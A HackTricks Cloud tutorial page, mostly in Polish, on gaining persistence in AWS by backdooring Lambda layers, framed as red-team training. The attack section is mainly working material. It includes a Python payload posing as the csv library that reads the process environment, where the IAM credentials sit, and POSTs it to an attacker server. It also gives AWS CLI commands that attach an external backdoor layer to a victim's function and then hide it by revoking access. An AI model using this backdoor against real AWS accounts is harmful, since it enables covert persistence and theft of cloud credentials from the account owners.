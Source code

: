 # AWS - Lambda Layers Persistence

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Lambda Layers

Warstwa Lambda to archiwum .zip, które **może zawierać dodatkowy kod** lub inne treści. Warstwa może zawierać biblioteki, [niestandardowe środowisko uruchomieniowe](https://docs.aws.amazon.com/lambda/latest/dg/runtimes-custom.html), dane lub pliki konfiguracyjne.

Możliwe jest dołączenie do **pięciu warstw na funkcję**. Gdy dołączasz warstwę do funkcji, **zawartość jest wypakowywana do katalogu `/opt`** w środowisku wykonawczym.

Z **domyślnie**, **warstwy**, które tworzysz, są **prywatne** dla twojego konta AWS. Możesz zdecydować się na **udostępnienie** warstwy innym kontom lub **uczynić** warstwę **publiczną**. Jeśli twoje funkcje korzystają z warstwy opublikowanej przez inne konto, twoje funkcje mogą **nadal korzystać z wersji warstwy po jej usunięciu lub po cofnięciu twojego dostępu do warstwy**. Jednak nie możesz utworzyć nowej funkcji ani zaktualizować funkcji korzystających z usuniętej wersji warstwy.

Funkcje wdrożone jako obraz kontenera nie używają warstw. Zamiast tego pakujesz swoje preferowane środowisko uruchomieniowe, biblioteki i inne zależności do obrazu kontenera podczas budowania obrazu.

### Python load path

Ścieżka ładowania, której Python użyje w lambdzie, jest następująca:
```
['/var/task', '/opt/python/lib/python3.9/site-packages', '/opt/python', '/var/runtime', '/var/lang/lib/python39.zip', '/var/lang/lib/python3.9', '/var/lang/lib/python3.9/lib-dynload', '/var/lang/lib/python3.9/site-packages', '/opt/python/lib/python3.9/site-packages']
```
Sprawdź, jak **drugie** i trzecie **pozycje** są zajmowane przez katalogi, w których **lambda layers** dekompresują swoje pliki: **`/opt/python/lib/python3.9/site-packages`** i **`/opt/python`**

{% hint style="danger" %}
Jeśli atakujący zdołałby **wprowadzić tylną furtkę** do używanej **warstwy lambda** lub **dodać jedną**, która będzie **wykonywać dowolny kod, gdy załadowana zostanie wspólna biblioteka**, będzie mógł wykonywać złośliwy kod przy każdym wywołaniu lambda.
{% endhint %}

Dlatego wymagania są następujące:

* **Sprawdź biblioteki**, które są **ładowane** przez kod ofiary
* Stwórz **bibliotekę proxy z warstwami lambda**, która będzie **wykonywać niestandardowy kod** i **ładować oryginalną** bibliotekę.

### Wstępnie załadowane biblioteki

{% hint style="warning" %}
Podczas nadużywania tej techniki napotkałem trudność: Niektóre biblioteki są **już załadowane** w czasie działania Pythona, gdy twój kod jest wykonywany. Spodziewałem się znaleźć takie rzeczy jak `os` czy `sys`, ale **nawet biblioteka `json` była załadowana**.\
Aby nadużyć tej techniki utrzymywania, kod musi **załadować nową bibliotekę, która nie jest załadowana**, gdy kod jest wykonywany.
{% endhint %}

Dzięki kodowi Pythona takiemu jak ten, możliwe jest uzyskanie **listy bibliotek, które są wstępnie załadowane** w czasie działania Pythona w lambda:
```python
import sys

def lambda_handler(event, context):
return {
'statusCode': 200,
'body': str(sys.modules.keys())
}
```
A oto **lista** (sprawdź, czy takie biblioteki jak `os` lub `json` są już dostępne)
```
'sys', 'builtins', '_frozen_importlib', '_imp', '_thread', '_warnings', '_weakref', '_io', 'marshal', 'posix', '_frozen_importlib_external', 'time', 'zipimport', '_codecs', 'codecs', 'encodings.aliases', 'encodings', 'encodings.utf_8', '_signal', 'encodings.latin_1', '_abc', 'abc', 'io', '__main__', '_stat', 'stat', '_collections_abc', 'genericpath', 'posixpath', 'os.path', 'os', '_sitebuiltins', 'pwd', '_locale', '_bootlocale', 'site', 'types', 'enum', '_sre', 'sre_constants', 'sre_parse', 'sre_compile', '_heapq', 'heapq', 'itertools', 'keyword', '_operator', 'operator', 'reprlib', '_collections', 'collections', '_functools', 'functools', 'copyreg', 're', '_json', 'json.scanner', 'json.decoder', 'json.encoder', 'json', 'token', 'tokenize', 'linecache', 'traceback', 'warnings', '_weakrefset', 'weakref', 'collections.abc', '_string', 'string', 'threading', 'atexit', 'logging', 'awslambdaric', 'importlib._bootstrap', 'importlib._bootstrap_external', 'importlib', 'awslambdaric.lambda_context', 'http', 'email', 'email.errors', 'binascii', 'email.quoprimime', '_struct', 'struct', 'base64', 'email.base64mime', 'quopri', 'email.encoders', 'email.charset', 'email.header', 'math', '_bisect', 'bisect', '_random', '_sha512', 'random', '_socket', 'select', 'selectors', 'errno', 'array', 'socket', '_datetime', 'datetime', 'urllib', 'urllib.parse', 'locale', 'calendar', 'email._parseaddr', 'email.utils', 'email._policybase', 'email.feedparser', 'email.parser', 'uu', 'email._encoded_words', 'email.iterators', 'email.message', '_ssl', 'ssl', 'http.client', 'runtime_client', 'numbers', '_decimal', 'decimal', '__future__', 'simplejson.errors', 'simplejson.raw_json', 'simplejson.compat', 'simplejson._speedups', 'simplejson.scanner', 'simplejson.decoder', 'simplejson.encoder', 'simplejson', 'awslambdaric.lambda_runtime_exception', 'awslambdaric.lambda_runtime_marshaller', 'awslambdaric.lambda_runtime_client', 'awslambdaric.bootstrap', 'awslambdaric.__main__', 'lambda_function'
```
I oto lista **bibliotek**, które **lambda instaluje domyślnie**: [https://gist.github.com/gene1wood/4a052f39490fae00e0c3](https://gist.github.com/gene1wood/4a052f39490fae00e0c3)

### Backdooring warstwy Lambda

W tym przykładzie załóżmy, że kod docelowy importuje **`csv`**. Będziemy **wprowadzać backdoora do importu biblioteki `csv`**.

Aby to zrobić, stworzymy **katalog csv** z plikiem **`__init__.py`** w ścieżce, która jest ładowana przez lambda: **`/opt/python/lib/python3.9/site-packages`**\
Następnie, gdy lambda zostanie wykonana i spróbuje załadować **csv**, nasz **plik `__init__.py` zostanie załadowany i wykonany**.\
Ten plik musi:

* Wykonać nasz ładunek
* Załadować oryginalną bibliotekę csv

Możemy zrobić to obie rzeczy za pomocą:
```python
import sys
from urllib import request

with open("/proc/self/environ", "rb") as file:
url= "https://attacker13123344.com/" #Change this to your server
req = request.Request(url, data=file.read(), method="POST")
response = request.urlopen(req)

# Remove backdoor directory from path to load original library
del_path_dir = "/".join(__file__.split("/")[:-2])
sys.path.remove(del_path_dir)

# Remove backdoored loaded library from sys.modules
del sys.modules[__file__.split("/")[-2]]

# Load original library
import csv as _csv

sys.modules["csv"] = _csv
```
Następnie utwórz zip z tym kodem w ścieżce **`python/lib/python3.9/site-packages/__init__.py`** i dodaj go jako warstwę lambda.

Możesz znaleźć ten kod w [**https://github.com/carlospolop/LambdaLayerBackdoor**](https://github.com/carlospolop/LambdaLayerBackdoor)

Zintegrowany payload **wyśle dane uwierzytelniające IAM na serwer PIERWSZY RAZ, gdy zostanie wywołany lub PO zresetowaniu kontenera lambda** (zmiana kodu lub zimna lambda), ale **inne techniki** takie jak poniższe mogą być również zintegrowane:

{% content-ref url="../../aws-post-exploitation/aws-lambda-post-exploitation/aws-warm-lambda-persistence.md" %}
[aws-warm-lambda-persistence.md](../../aws-post-exploitation/aws-lambda-post-exploitation/aws-warm-lambda-persistence.md)
{% endcontent-ref %}

### Zewnętrzne warstwy

Zauważ, że możliwe jest użycie **warstw lambda z zewnętrznych kont**. Co więcej, lambda może używać warstwy z zewnętrznego konta, nawet jeśli nie ma uprawnień.\
Zauważ również, że **maksymalna liczba warstw, które może mieć lambda, wynosi 5**.

Dlatego, aby poprawić wszechstronność tej techniki, atakujący mógłby:

* Wprowadzić backdoora do istniejącej warstwy użytkownika (nic nie jest zewnętrzne)
* **Utworzyć** **warstwę** w **swoim koncie**, dać **koncie ofiary dostęp** do używania warstwy, **skonfigurować** **warstwę** w Lambdzie ofiary i **usunąć uprawnienia**.
* **Lambda** nadal będzie mogła **używać warstwy**, a **ofiara nie** będzie miała łatwego sposobu na **pobranie kodu warstwy** (oprócz uzyskania powłoki rev wewnątrz lambdy)
* Ofiara **nie zobaczy zewnętrznych warstw** używanych z **`aws lambda list-layers`**

{% code overflow="wrap" %}
```bash
# Upload backdoor layer
aws lambda publish-layer-version --layer-name "ExternalBackdoor" --zip-file file://backdoor.zip --compatible-architectures "x86_64" "arm64" --compatible-runtimes "python3.9" "python3.8" "python3.7" "python3.6"

# Give everyone access to the lambda layer
## Put the account number in --principal to give access only to an account
aws lambda add-layer-version-permission --layer-name ExternalBackdoor --statement-id xaccount --version-number 1 --principal '*' --action lambda:GetLayerVersion

## Add layer to victims Lambda

# Remove permissions
aws lambda remove-layer-version-permission --layer-name ExternalBackdoor --statement-id xaccount --version-number 1
```
{% endcode %}

{% hint style="success" %}
Ucz się i ćwicz Hacking AWS:<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Ucz się i ćwicz Hacking GCP: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Wsparcie HackTricks</summary>

* Sprawdź [**plany subskrypcyjne**](https://github.com/sponsors/carlospolop)!
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegram**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Dziel się trikami hackingowymi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repozytoriów github.

</details>
{% endhint %}
